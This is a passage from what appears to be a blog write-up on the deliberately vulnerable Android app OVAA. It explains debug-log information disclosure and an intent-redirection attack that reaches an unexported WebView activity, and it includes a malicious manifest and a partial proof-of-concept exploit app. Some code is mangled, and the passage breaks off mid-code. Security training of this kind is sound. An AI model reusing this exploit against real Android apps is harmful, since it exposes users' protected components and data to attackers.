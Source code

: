 We can also see another vulnerability that leads into **information disclosure** in the **processLogin** where a debug-flagged Logger exists. An `adb logcat` command to find a string `ovaa` may reveals our login data starting with “Processing “ prefix.

Since we can pass an intent to the LoginActivity class, we’ll have to seek out the targeted activity in order for us to gain a full access advantage. We can see that there’s a protected component, an **unexported activity,** WebView Activity.

![](https://miro.medium.com/max/1400/1*astBtaPN6WSOAYkwu9navw.png)

If we take a look at the source code again,

![](https://miro.medium.com/max/1228/1*87dRgWNzpOOAI34kgL7OwQ.png)

[**WebView**](https://www.techtarget.com/searchsecurity/definition/Android-Webview) will load a custom URL from an extra `url` Intent data. This way, we can craft out the attack scenario. We can **force** the Login Activity to accept an intent containing an `url` extra of a **malicious website** and passed it to a `redirect_intent` extra from the Login Activity intent. We can launch the Login Activity from any application because it’s **exported.**

![](https://miro.medium.com/max/1400/1*k-W5SsbAf1lhKqBUlYalxw.png)

Let’s forge our malicious application.

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.evil.evilintentaccessprotectedovaa"><application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.Evilintentaccessprotectedovaa">
        <activity android:>
            <intent-filter>
                <action android: />
            </intent-filter>
        </activity>
    </application></manifest>
```

**PoC** of the App:

```
package com.evil.evilintentaccessprotectedovaa;import androidx.appcompat.app.AppCompatActivity;import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.content.pm.PackageManager;
import android.os.Bundle;public class MainActivity extends AppCompatActivity {@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);//first intent will be prepared and targeted to protected un-exported
        //activity called WebActivity. But since we'll load 2 args of intent
        //that are the package name and the class, we'll create a context
        //and a class loader first
        Context icontext = null;
        try {
            icontext = createPackageContext("oversecured.ovaa",Context.CONTEXT_INCLUDE_CODE|Context.CONTEXT_IGNORE_SECURITY);
        } catch (PackageManager.NameNotFoundException e) {
            e.printStackTrace();
        }Class iclass = null;
        try {
```